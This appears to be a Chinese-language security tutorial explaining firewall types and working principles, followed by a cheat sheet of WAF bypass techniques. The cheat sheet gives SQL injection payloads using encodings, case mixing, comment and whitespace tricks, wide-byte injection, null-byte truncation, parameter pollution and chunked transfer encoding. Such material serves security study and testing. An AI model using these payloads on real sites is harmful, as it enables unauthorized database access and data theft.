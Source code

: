 ## 防火墙介绍

防火墙是一种安全系统，它基于一组安全规则来监视和控制网络流量。防火墙通常位于受信任的网络和不受信任的网络之间；通常，不受信任的网络是互联网。例如，办公室网络通常使用防火墙来保护其网络免受在线威胁。

防火墙决定是否允许传入和传出的流量通过。它们可以内置于硬件、软件或两者的组合之中。“防火墙”一词的来源是建筑中的一种做法，即在建筑物之间或建筑物的中间建起一道防护墙以做防火之用。与此相似，网络防火墙用于控制在线威胁。

## 防火墙分类

### 基于代理的防火墙

这些代理防火墙位于客户端和服务器之间。客户端连接到防火墙，防火墙检查传出的数据包，之后它将创建与目标收件人（网页服务器）的连接。同样，当网页服务器尝试向客户端发送响应时，防火墙将拦截该请求，检查数据包，然后在防火墙与客户端之间的单独连接中传递该响应。基于代理的防火墙有效地防止了客户端和服务器之间的直接连接。

### 状态防火墙

在计算机科学中，“有状态”的应用程序表示那些从先前事件和交互中保存了数据的应用程序。有状态的防火墙会保存关于公开连接的信息，并使用此信息来分析传入和传出的流量，而不是检查每个数据包。由于状态防火墙不会检查每个数据包，它们比基于代理的防火墙要快。

### 下一代防火墙(NGFW)

NGFW 不仅具有传统防火墙的功能，还部署了主机附加功能来解决对 OSI 模型其它层造成的威胁。NGFW 的部分特定功能包括：

- **深度数据包检测 (DPI)** – 与传统防火墙相比，NGFW 会对数据包执行更深入的检查。深度检查可以查看数据包有效负载以及数据包正在访问哪个应用程序。这让防火墙能够执行更精细的过滤规则。
- **应用程序感知** – 启用此功能能让防火墙知晓正在运行的应用程序和这些应用程序正在使用的端口。这可以防止那些意图中断正在运行的进程然后接管其端口的某些恶意软件类型。
- **身份识别** – 它使防火墙可以基于身份实施规则，例如正在使用的计算机、登录的用户等。
- **沙箱** – 防火墙可以隔离与传入数据包相关联的代码段，并在“沙盒”环境中执行它们，以确保它们没有恶意行为。然后，将此沙盒测试的结果作为决定是否让数据包进入网络的标准。

### Web应用程序防火墙(WAF)

传统防火墙有助于保护专用网络免受恶意 Web 应用程序的侵害，而 WAF 可帮助保护 Web 应用程序不受恶意用户的侵害。WAF 通过过滤和监控 Web 应用程序与互联网之间的 HTTP 流量来帮助保护 Web 应用程序。它通常可以保护 Web 应用程序，使其免受跨站点伪造、跨站点脚本 (XSS)、文件包含、SQL 注入及其他一些攻击的影响。

### 防火墙即服务(FWaas)

防火墙即服务 (FWaaS) 是一种较新的模式，通过云提供防火墙功能。这种服务也可称为“云防火墙”。FWaaS 在云平台、基础设施和应用程序周围形成一个虚拟屏障，就像传统防火墙在组织的内部网络周围形成一个屏障一样。FWaaS 通常比传统防火墙更适合保护云和多云资产。

## 防火墙原理

### 包过滤

包过滤是在IP层实现的，因此，它可以只用路由器完成。包过滤根据包的源IP地址、目的IP地址、源端口、目的端口及包传递方向等报头信息来判断是否允许包通过。过滤用户定义的内容，如IP地址。其工作原理是系统在网络层检查数据包，与应用层无关，包过滤器的应用非常广泛，因为CPU用来处理包过滤的时间可以忽略不计。而且这种防护措施对用户透明，合法用户在进出网络时，根本感觉不到它的存在，使用起来很方便。这样系统就具有很好的传输性能，易扩展。

### 状态监测

状态检测防火墙在网络层有一个检查引擎截获数据包并抽取出与应用层状态有关的信息，并以此为依据决定对该连接是接受还是拒绝。这种技术提供了高度安全的解决方案，同时具有较好的适应性和扩展性。状态检测防火墙一般也包括一些代理级的服务，它们提供附加的对特定应用程序数据内容的支持。状态检测技术最适合提供对UDP协议的有限支持。它将所有通过防火墙的UDP分组均视为一个虚连接，当反向应答分组送达时，就认为一个虚拟连接已经建立。

### 应用代理

工作在应用层，通过编写不同的应用代理程序，实现对应用层数据的检测和分析。应用代理防火墙超越状态监测防火墙在于它们并不允许任何包直接通过保护的系统。相反，防火墙在目的网络创建一个代理连接，通过这个代理连接传递通信。代理防火墙通常包含高级应用检测能力，允许防火墙检测尖端的应用层攻击，比如缓冲区溢出攻击和SQL注入攻击。应用代理防火墙通常比状态监测防火墙贵很多，因而，它们通常仅仅用来保护数据中心、包含公开访问的网络和高价值的服务器。


## 绕WAF

### 编码绕过

#### 1.URL编码

`1%27%20and%201%20%3D%201%20--%20`

#### 2.Base64编码

`JTMxJyUyMCU2MW4lNjQlMjAlMzElMjAlM2QlMjAlMzElMjAlMmQlMmQlMjA=`

#### 3.Hex编码

`%31'%20%61n%64%20%31%20%3d%20%31%20%2d%2d%20`

#### 4.ASCII编码

`\u0031\u0027\u0020\u0061\u006e\u0064\u0020\u0031\u0020\u003d\u0020\u0031\u0020\u002d\u002d\u0020`

### 大小写绕过

union select 
UniOn SEleCt

### 空格绕过

`1' and '1'='1 --
1'%0aand%0a'1'1='1%0a--
1'+and+'1'='1+--
1’/\*\*/and/\*\*/'1'='1/\*\*--'`

### 双写绕过

`1' and '1'='1 --
1' andAnd '1'='1 --'`

### 内联注释绕过

在MySQL里，/\*\*/是多行注释，这个是SQL的标准，但是MySQL扩张了解释的功能，如果在开头的的/\*后头加了惊叹号（/\*!50001sleep(3)\*/），那么此注释里的语句将被执行。

`?id=1+and+/*!50001sleep(3)*/+and+1=1`

### 请求方式绕过

https://blog.csdn.net/weixin_42220532/article/details/104411061

### 超大数据绕过

部分WAF只检测固定大小的内容，可通过添加无用字符进行绕过检测

### 复参数绕过

`?id=1&id=1'and 1=1 --`

### 截断绕过

部分WAF在解析参数的时候当遇到%00时，就会认为参数读取已结束，这样就会只对部分内容进行了过滤检测。

`?id=%00.1' and 1=1 --`

### 宽字节绕过

宽字节注入是因为使用了GBK编码。为了防止sql注入，提交的单引号(%27)会进行转义处理，即在单引号前加上斜杠(%5C%27)。

`?id=1%df%27and 1=1--+`

%df%27经过转义后会变成%df%5C%27,%df%5c会被识别为一个新的字节，而%27则被当做单引号，成功实现了语句闭合。

### 分块绕过

分块传输编码是HTTP的一种数据传输机制，允许将消息体分成若干块进行发送。当数据请求包中header信息存在Transfer-Encoding: chunked，就代表这个消息体采用了分块编码传输。

```

原始请求数据：
id=1 and 1=1 -- &submit=%E6%9F%A5%E8%AF%A2

分块传输数据：
Transfer-Encoding:chunked
4
id=1
5
 and 
3
1=1
4
 -- 
8
&submit=
9
%E6%9F%A5
9
%E8%AF%A2
0
（两个换行）

```
